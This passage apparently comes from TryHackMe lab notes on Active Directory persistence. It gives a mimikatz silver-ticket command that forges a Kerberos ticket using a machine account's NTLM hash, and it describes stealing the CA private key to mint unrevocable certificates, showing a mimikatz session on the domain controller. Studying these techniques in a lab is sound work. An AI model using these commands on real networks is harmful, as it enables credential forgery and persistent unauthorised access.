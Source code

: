 - /sid - The ticket lifetime. By default mimikatz generates one that is valid for 10 years. The default kerberos policy is 10 hours (600min)
- /renewmax - The max ticket lifetime with reneweal. The default Kerberos policy of AD is 7 days.
- /ptt - Mimikatz injects the ticket directly into the session making it ready to be used

The silver ticket command is: 
```
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
- /service - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
- /rc4 - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that it is a machine account.
- /target - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.

## Persistance through certificates

### The Return of AD CS

Certificates can also be used for persistence. All we need is a valid certificate that can be used for Client Authentication. 

This will allow us to use the certificate to request a TGT. 

We can continue requesting TGTs no matter how many rotations they do on the account we are attacking. 

The only way we can be kicked out is if they revoke the certificate we generated or if it expires. 

Meaning we probably have persistent access by default for roughly the next 5 years. 

Depending on our access, we can take it another step further. We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it. 

Even worse, since these certificates were never issued by the CA, the blue team has no ability to revoke them. 

### Extracting the Private Key

The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI).

We can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA. Mimikatz is the simplest tool to use.

```
za\administrator@THMDC C:\Users\Administrator>mkdir exzh

za\administrator@THMDC C:\Users\Administrator>cd exzh

za\administrator@THMDC C:\Users\Administrator\exzh>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # crypto::certificates /systemstore:local_machine
```
We can see that there is a CA certificate on the DC. 
